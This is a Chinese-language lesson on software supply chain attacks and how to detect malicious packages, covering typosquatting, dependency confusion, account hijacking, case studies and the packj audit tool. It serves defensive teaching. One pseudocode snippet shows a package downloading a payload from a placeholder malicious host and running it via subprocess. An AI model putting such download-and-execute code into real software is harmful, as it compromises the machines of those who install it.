



# 软件供应链安全：P18：检测恶意软件包


## 概述
在本节课中，我们将学习软件供应链攻击的基本概念，了解攻击者如何利用开源软件包管理器（如PyPI）传播恶意软件，并探讨如何通过自动化工具来检测和防御这类攻击。

---

## 什么是软件供应链攻击？🚨

开源软件是现代数字应用和服务构建的事实标准。这些软件通常以软件包的形式在包管理器（如NPM、PyPI）上分发。例如，PyPI托管着超过30万个Python包，每日下载量达数百万次。

任何人都可以轻松地在这些包管理器上发布软件包，通常只需一个简单的命令行命令。然而，这种便捷性也带来了安全风险：我们使用的软件可能包含由未知发布者注入的恶意代码。攻击者正是利用了这种信任关系。

根据研究，2021年的软件供应链攻击数量增加了三倍，且所有主流生态系统（NPM、PyPI等）均未能幸免。

**软件供应链攻击**是指攻击者瞄准供应链中的薄弱环节（如安全性较低的软件包），通过发布恶意软件包来注入恶意代码。与无意产生的漏洞不同，恶意软件是**故意编写的有害代码**。例如，一个软件包可能在安装后立即窃取用户的SSH密钥或比特币钱包地址。这类攻击影响范围极广，因为同一个恶意软件包可能被数百万台设备安装。

---

## 常见的攻击技术🔍

上一节我们介绍了软件供应链攻击的基本概念，本节中我们来看看攻击者常用的几种技术。

以下是几种常见的攻击手段：




1.  **拼写错误投机**
    攻击者发布名称与现有流行软件包高度相似的恶意包，利用开发者的拼写错误或经验不足来传播恶意软件。
    *   **示例**：恶意包 `color-rammer` 伪装成流行包 `rammer`。如果开发者输入错误，就可能安装恶意软件。

2.  **社交工程**
    攻击者首先伪装成良性贡献者，为开源项目贡献有用功能以获取信任，随后要求成为维护者或直接注入恶意代码。
    *   **示例**：NPM包 `event-stream` 事件。攻击者先贡献功能，获得维护权限后，发布了窃取比特币地址的恶意代码。

3.  **依赖混淆**
    企业通常使用内部镜像的包管理器。攻击者通过公开信息发现企业内部使用的私有包名称，然后在公共仓库发布同名但版本号更高的恶意包。包管理器的默认行为会优先安装公共版本，从而导致恶意软件被引入企业内部系统。

4.  **账户劫持**
    攻击者通过窃取或攻陷合法维护者的账户，直接发布流行软件包的恶意更新版本。
    *   **示例**：每周下载量达800万的JavaScript包 `ua-parser-js` 曾遭账户劫持，攻击者发布了恶意版本。



---


## 案例研究：深入恶意软件包🕵️

了解了攻击技术后，我们通过具体案例来深入分析恶意软件包的行为。

让我们分析一个具体的恶意Python包案例。该包伪装成流行的网络代理工具 `mitmproxy`。

*   **伪装手段**：恶意包使用了与正版几乎相同的项目描述和统计数据，容易使缺乏经验的开发者误认为是正版升级。
*   **恶意行为**：其代码移除了系统的安全保护措施，使得同一网络上的攻击者能够通过HTTP请求在受害者机器上执行任意代码。

另一个案例是我们发现并报告给PyPI的一个恶意包。该包的主要恶意行为是：
1.  从指定URL下载恶意有效载荷。
2.  通过生成子进程来执行下载的代码。
通过检查，我们发现该包注册的邮箱地址无效，这进一步证实了其可疑性。

其核心恶意代码逻辑可以用以下伪代码表示：
```python
import subprocess
import urllib.request

# 从攻击者服务器下载恶意负载
malicious_payload = urllib.request.urlopen("http://malicious-site.com/payload.exe").read()
# 执行恶意负载
subprocess.call(malicious_payload)
```

---

## 如何防御供应链攻击？🛡️

面对多样的攻击手段，我们该如何保护自己？安全是共同责任，需要社区、维护者、包管理器和开发者共同努力。

上一节我们看到了恶意软件包的危害，本节中我们来看看防御策略和工具。

### 社区与平台的措施
*   **采用双因素认证**：包维护者和包管理器应启用**双因素认证（2FA）**，防止账户被劫持。
*   **实施命名空间保护**：包管理器可以对流行包名实施保护，降低**抢注攻击**的风险。

### 开发者的责任：零信任与自动化审核
然而，仅靠平台措施不够，因为维护者本人也可能成为攻击源（例如抗议性破坏）。因此，开发者必须采取**零信任**原则，即不默认信任任何软件包。

手动审核所有依赖项是不现实的。一个像 **PyTorch** 这样的流行包，其直接和间接依赖关系可能多达数百个，形成复杂的依赖树。

解决方案是使用自动化工具进行代码和行为审核。但现有工具（如 `safety`、`pip-audit`）主要专注于扫描公开的漏洞数据库（如NVD），对于尚未被收录的**恶意软件包往往无法检测**。

例如，一个演示用的恶意包可能在运行时窃取SSH密钥，但传统漏洞扫描器会报告“无风险”。

同样，盲目信任下载量、GitHub星标等“虚荣指标”也是危险的，因为这些数据容易被攻击者通过机器人等手段操控。

---

## 实战工具：`packj` 简介与演示🛠️

理论需要工具来实践。本节将介绍一款基于零信任原则的自动化软件包审计工具——`packj`。

`packj` 是我们开发的一款命令行工具，它采用静态分析和元数据检查相结合的方式，对软件包进行多维度风险审计。

**工作原理**：
1.  **API静态分析**：恶意软件要实现敏感操作（如读写文件、网络通信、执行代码），必须调用特定的系统或语言API。`packj` 跟踪这些高风险API调用。
    *   **文件访问**：`open`, `read`, `write`
    *   **网络通信**：`socket` 相关API
    *   **代码执行**：`exec`, `eval`, `os.system`
2.  **元数据分析**：检查包是否长期未更新（易受攻击）、作者邮箱是否有效、是否存在公开的源代码仓库等。
3.  **威胁模型自定义**：用户可以根据自身情况，在 `threats.csv` 配置文件中启用或禁用特定风险检查项，以减少误报。

**工具演示**：
通过命令行，可以快速审计一个包：
```bash
python3 -m packj.audit --registry pypi --package <package_name>
```
工具会输出该包的元数据信息、发现的漏洞（CVE）以及基于静态分析检测到的风险行为（例如：“包会读取文件并生成子进程”）。

**高级服务：Package.dev**
除了命令行工具，我们还提供了在线服务 `package.dev`。它基于大规模数据集，能提供更准确的分析，并支持上传 `requirements.txt` 进行批量审计，以及集成CI/CD流程。

---

## 总结

本节课中，我们一起学习了软件供应链安全的核心内容：

1.  **风险认知**：认识到开源软件包便捷发布机制背后隐藏的安全风险，以及供应链攻击的巨大危害。
2.  **攻击技术**：了解了攻击者常用的**拼写错误投机**、**社交工程**、**依赖混淆**和**账户劫持**等手段。
3.  **防御理念**：确立了**零信任**原则，明白不能依赖单一指标（如下载量）或传统漏洞扫描器来保证安全。
4.  **实用工具**：介绍了自动化审计工具 `packj` 及其在线服务 `package.dev` 的工作原理与使用方法，它们通过**静态分析**和**元数据审查**来主动发现恶意行为。



安全始于意识，成于工具。作为开发者，积极审计你的依赖项，是保护项目免受供应链攻击的关键一步。